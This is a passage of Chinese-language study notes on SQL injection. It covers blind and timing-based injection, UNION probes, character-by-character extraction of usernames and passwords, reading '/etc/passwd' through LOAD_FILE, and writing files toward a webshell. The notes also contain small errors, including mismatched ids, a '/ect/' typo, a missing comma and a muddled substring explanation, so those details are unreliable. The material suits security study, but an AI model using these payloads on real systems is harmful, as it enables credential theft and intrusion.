 ----

#### 盲注（Blind Injection）

对于web服务器关闭了错误回显，可以通过盲注攻击。盲注：在服务器没有错误回显时完成的注入攻击。构造简单的条件语句，根据返回页面是否发生变化，来判断SQL语句是否得到执行。

##### 例子：

	http://www.a.com/index.php?id=1 相当于执行了SQL语句：select title,description,body from items where id =2
	
	若：http://www.a.com/index.php?id=1 and 1=2相当于执行了SQL语句：select title,description,body from items where id =2 and 1=2
	因为“and 1=2”为伪命题，所以这条“and”条件语句永远无法成立。对于web应用来说，也不会有结果返回给用户，只能看到结果为空或者一个错误页面。
	为了进一步确认注入是否存在，再次验证。因为一些处理逻辑或安全功能，在异常请求时会导致页面返回不正常。
	
	继续构造：http://www.a.com/index.php?id=1 and 1=1
	因为“and 1=1”为真命题，如果页面正常返回，则说明SQL语句的“and”成功执行，那么可以判断“id”参数存在SQL注入漏洞。

----

#### Timing Attack

+ MYSQL函数：BENCHMARK( count，expr )
  - 用于测试函数性能
  - 函数的执行结果是将表达式expr执行count次。
  - 利用BENCHMARK()函数，可以让同一个函数执行若干次，使得结果返回的时间比平时要长；通过时间长短的变化，可以判断出注入语句是否执行成功。这是一种边信道攻击，这个技巧在盲注中被称为Timing Attack。

----

### 数据库攻击技巧

#### 常用的攻击技巧

  + 猜解数据库对应版本
    - http://www.a.com/news.php?id=5 and substring(@@version,1,1) = 4
  +  利用union select分别确认表面admin是否存在，列名passwd是否存在
    - id=5 union all select 1,2,3 from admin 
    - id=5 union all select 1,2,passwd from admin
  + 进一步，想要猜出username和password具体的值，可以通过判断字符范围
    - id=5 and ascii(substring(select concat(username,0x3a,passwd) from users limit 0,1),1,1) >64 
    - id=5 and ascii(substring(select concat(username,0x3a,passwd) from users limit 0,1),1,1) >96
    - id=5 and ascii(substring(select concat(username,0x3a,passwd) from users limit 0,1),1,1) >100
    - id=5 and ascii(substring(select concat(username,0x3a,passwd) from users limit 0,1),2,1) >64 
    - ......
        + ascii()>64
          - 在ASCII码对照表中，十进制的65~90 对应字符 A~Z，十进制的97~122 对应字符 a~z
        + substring("hello"，1，2)
          - 返回hello的第1至第2位：he
        + substring("hello"，2，1)
          - 返回hello的第1位至第二位，但截取第1位，则返回：e
        + concat(a,b,c)
          - 合并字符，结果为：abc
        + 0x3a
          - 在ASCII码对照表中，十进制的58对应的十六进制是0x3a，其对应的字符是：“:”（冒号）
        + limit(0，1)
          - 0是偏移量，1是返回记录行的最大数目。所以检索的记录行是：从0到0+1
  + 注入过程中，常常会用到一些读写文件的技巧
    + 如果当前数据库用户拥有系统相应文件或目录的权限，则在mysql中，可以通过LOAD_FILE()读取系统文件，并通过INTO DUMPFILE写入本地文件。
      - ... union select 1,1,LOAD_FILE('/etc/passwd'),1,1;
    + 如果当前数据库用户拥有创建表的权限，则可以通过LOAD_FILE()将系统文件读出，再通过INTO DUMPFILE将该文件写入系统中，然后通过LOAD DATA INFILE将文件导入创建的表中，最后就可以通过一般的注入技巧直接操作表数据了。 
      - HEX（）函数：返回十六进制值的字符串表示形式。注意：并不是十进制转化为十六进制数，而是转化为字符串。。。
      - CREATE TABLE 表名(...);
     UNION SELECT 1,1HEX(LOAD_FILE('/ect/表名')),1,1 INTO DUMPFILE '/tmp/表名'；
     LOAD DATA INFILE '/tmp/表名'  INTO TABLE 表名;
    + 写入文件的技巧，经常被用于导出一个webshell，为攻击者的进一步攻击做铺垫。 
